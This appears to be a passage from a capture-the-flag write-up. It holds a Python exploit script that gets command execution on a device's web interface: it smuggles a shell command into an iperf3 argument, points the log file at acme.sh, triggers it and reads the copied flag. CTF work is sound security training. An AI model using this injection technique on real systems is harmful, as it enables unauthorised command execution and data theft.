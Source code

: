 ```python
        url = f"http://{host}:{port}/cgi-bin/login.cgi?reset_password"
        response = requests.post(url, f"id={session_id}", headers=headers)
        assert response.text # wait for data to come

    session_id = new_session()
    info(f"Fetch new session: {session_id}")

    info(f"{BLUE_TEXT(Commands.IPERF3_SERVER.name)} Launching iperf3 server...")
    arbcmd('127.0.0.1', '1337', Commands.IPERF3_SERVER)

    info(f"{BLUE_TEXT(Commands.IPERF3_CLIENT.name)} Injecting command into acme.sh...")
    # arbcmd('127.0.0.1', '1337 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)
    # why the flag name is so strange???
    arbcmd('127.0.0.1', '1337 -T "cp /*flaG* /var/www/html/flag.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)

    info(f"{BLUE_TEXT(Commands.ACME_APPLY.name)} Triggering acme.sh...")
    arbcmd(' ', ' ', Commands.ACME_APPLY)

    url = f"http://{host}:{port}/flag.html"
    response = requests.get(url)
    success(f"Flag is: {response.text.strip()}")
```

![flag](assets/flag.html.png)
